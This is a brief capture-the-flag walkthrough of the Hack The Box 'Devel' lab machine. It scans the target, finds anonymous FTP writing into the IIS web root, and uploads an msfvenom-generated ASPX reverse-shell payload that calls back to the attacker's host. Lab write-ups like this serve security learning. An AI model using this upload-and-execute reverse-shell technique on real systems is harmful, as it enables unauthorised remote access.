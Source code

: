 Devel without Metasploit:

![Devel](https://user-images.githubusercontent.com/55708909/91413269-7f683500-e868-11ea-8bfa-29ec7f6b1608.png)

Starting with Nmap Scan :
Nmap -sC -sV -T4 -A -O -oA Legacy -p- 10.10.10.5

![Devel_nmap](https://user-images.githubusercontent.com/55708909/91413112-492ab580-e868-11ea-9a51-ab777d532f6e.png)

As we have only two ports open we are going to enumerate these two ports

FTP anonymous login is allowed

![Devel_ftp](https://user-images.githubusercontent.com/55708909/91413595-fb627d00-e868-11ea-9607-ee58e55352cc.png)

Find out that FTP & WEB server is on the same path therefore if we upload a shell from FTP we will be able to execute through web server and get reverse shell

![Devel_web](https://user-images.githubusercontent.com/55708909/91413962-7b88e280-e869-11ea-87fc-fcb94663eeca.png)

Since it is IIS7 I guess we can upload a payload in ASP OR ASPX

msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f aspx > shell.aspx

Then login in through FTP Server put it & execute it through WEB Server

Here we have a reverse shell from target machine









